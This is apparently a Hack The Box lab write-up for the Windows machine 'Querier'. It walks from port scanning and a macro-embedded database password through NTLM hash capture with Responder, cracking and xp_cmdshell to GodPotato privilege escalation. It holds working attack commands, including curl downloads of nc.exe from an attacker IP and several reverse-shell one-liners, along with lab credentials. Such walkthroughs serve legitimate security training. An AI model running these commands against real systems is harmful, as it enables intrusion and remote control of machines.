- Machine Name: Querier
- OS Type: Windows
- Difficulty: Medium

### Port Scanning -  Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Wed Apr 23 08:15:17 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.125
Nmap scan report for 10.10.10.125
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-04-23 08:15:18 IST for 156s
Not shown: 65419 closed tcp ports (reset), 102 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.10.125:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: QUERIER
|     DNS_Domain_Name: HTB.LOCAL
|     DNS_Computer_Name: QUERIER.HTB.LOCAL
|     DNS_Tree_Name: HTB.LOCAL
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-23T02:38:04
| Not valid after:  2055-04-23T02:38:04
| MD5:   7d4c:4ef8:83ce:86f9:32fc:f521:81a3:4ee7
| SHA-1: c911:8912:55b2:3de7:1f54:fd70:b249:7f61:8d90:98b9
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQUr+0My3TdohHSNRNwSqqpjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjUwNDIzMDIzODA0WhgPMjA1NTA0MjMwMjM4MDRaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAL3hwLvA
| Z3u12v2XM8xQC8DjTMe3Rm8sxqPxzBqo1hX9pMVHKB1naIExI1n6gXPhlcKFmNes
| bfwuyE96344+u5gLikHji2JrZQ9+IWvvNw5C409ZNWfLZqYtlcRtqAxQwRS3BBRX
| mI5NEFbv+RkdLOYSTmgR5TgtDwZu5YpDo/AGJmOpy73QFGI4CsTIUCXGujpc/o6r
| SrFkgMZsJF6OFi953NDg2hP++ul813+gIuRQuI35xc/sQsRXjgQ2qd7OPsMVNfRA
| MqzRLPhAxybjhCeNYQJOTHB/OU9GyQvdyAytnJwTCUlLB4NzUi5TWiA/GfjRMI/5
| SgscIQuDGbZgF80CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEANomGIy4Nb/S8p2uN
| O6xUQRq1bmaKKfrJ6+QlsnWkXeiHCaq0GZ49/LuyOLVobXB6E+u9+MHNVk2bCyoK
| 4x7vb1isXTcHihsP7WKnryUb76NtxlA/O9MzEzRa10VZnXFTCrMdz1SqtXsQrGT3
| HQ75ukcXGHTE1sMuLuCYR7kbbTnkC5+zhMNCYbSPvutLcjrXw/uYPWnzYwvLdU0I
| xbHOXfXtRWo5ibSf5FvJNfBJMa47qnj4ld6Uh+b4VRRjHzA02Es/UP26RF4saYP1
| tXZRXwciBuBa1oxSJdztKHIefqrBP/Y9UVcDB/e0ZWPoJus/Dptrm+RQHa7r5y7+
| elJctA==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.10.10.125:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-04-23T02:47:54+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-23T02:47:44
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10624/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 37573/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 40571/udp): CLEAN (Failed to receive data)
|   Check 4 (port 54847/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 23 08:17:54 2025 -- 1 IP address (1 host up) scanned in 157.30 seconds
```

## Enumeration

### Port 139,445/SMB

Let’s start our enumeration from SMB, i’ll first check for Null session

```bash
smbclient -L //10.10.10.125 -N
```



i found non-default windows share **Reports** let’s looks into it

```bash
smbclient //10.10.10.125/Reports -N
```



download file via

```bash
get "Currency Volume Report.xlsm"
```

However, the Excel file is Blank What now? let’s try analyzing file for more information



i’ll check for macros,

- go to **View > Macros > View Macro**



- type any name and click on create this will bring us to macro editor



Select **ThisWorkBook** and inspect the macro code we found the database credentials as we found that the port 1433 (MSSQL) is open on target machine i’ll use these creds to login to MSSQL 

```bash
impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
```



let’s try to enable xp_cmdshell using `enable_xp_cmdshell` command from impacket-mssqlclient console



let’s see what other options are available using `help` command



let’s try to run `xp_dirtree` to see  if we can list the files



when i see xp_dirtree working i think about stealing ntlm hash of the user using responder let’s start responder to listen on tun0 interface

```bash
sudo responder -I tun0 -v
```

and execute `xp_dirtree \\<kaliip>\test` 

```bash
xp_dirtree \\10.10.14.17\test
```

check the responder console and you probably able to get the NTLM hash of the user



here it is, let’s use hashcat to crack the hash

```bash
hashcat -m 5600 svc-mssql.hash /usr/share/wordlists/rockyou.txt
```



### YOU SAID IT HASHCAT CRACKED IT!!

let’s use this creds to move further, i’ve first tried to enumerate more users from machine using mssql-svc user’s creds

```bash
netexec smb 10.10.10.125 -u mssql-svc -p  corporate568 --local-auth --users
```



Note: We’ve specified the `--local-auth` as it is not Active Directory related machine

but no success, let’s try to login again as mssql-svc using **impacket-mssqlclient**



now let’s try to enable XP_CMDSHELL again



Bingo!!, we’ve now Command execution



It’s time to get shell, using sweet and cute nc.exe

```bash
SQL (QUERIER\mssql-svc  dbo@master)> **xp_cmdshell "curl http://10.10.14.17/nc.exe -o \users\public\nc.exe"**
```

and then execute nc.exe to get reverse shell

```bash
SQL (QUERIER\mssql-svc  dbo@master)> **xp_cmdshell "\users\public\nc.exe 10.10.14.17 443 -e cmd.exe"**
```

got the reverse shell on port 443!



we can read user.txt `C:\Users\mssql-svc\Desktop\user.txt` 



let’s check what privileges we have, as we are running as service user there’s high chance we’ll get **SeImpersonatePrivilege** enabled



and there it is let’s use [GodPotato](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe) transfer godpotato to target machine via curl and python http server

```bash
curl http://10.10.14.17/GodPotato-NET4.exe -o god.exe
```

let’s run whoami command to see what user it is running as expected is NT Authority\SYSTEM

```bash
god.exe -cmd whoami
```



great!, let’s use netcat and get the shell, start netcat listener on port 445 using `rlwrap nc -nvlp 445` 

run god.exe to execute nc.exe to connect to kali on port 445 with reverse shell!

```bash
god.exe -cmd "\users\public\nc.exe 10.10.14.17 445 -e cmd"
```



reverse shell connection on port 445

